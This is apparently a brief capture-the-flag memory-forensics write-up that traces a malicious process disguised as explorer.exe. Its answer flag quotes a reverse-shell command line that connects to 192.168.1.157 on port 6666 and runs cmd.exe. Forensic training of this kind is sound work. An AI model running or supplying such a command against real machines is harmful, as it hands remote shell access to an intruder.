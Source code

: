 # Commands
![](../../assets/forensics/commands_1.png)

[Zip File](https://drive.google.com/file/d/1porBmluAvOp9qaK-lRJf4NqYysfd9gxw/view?usp=sharing) 
Please before look to [Captured Memories](Forensics/Captured%20Memories/index.md)
From [cmdline output](../../assets/forensics/cmdline.txt) we can easily  see 
process `3100` use process `5448`'s  malicious explorer.exe.
![](../../assets/forensics/commands_2.png)


Flag: `flag{explorer.exe  192.168.1.157 6666 -e cmd.exe}` 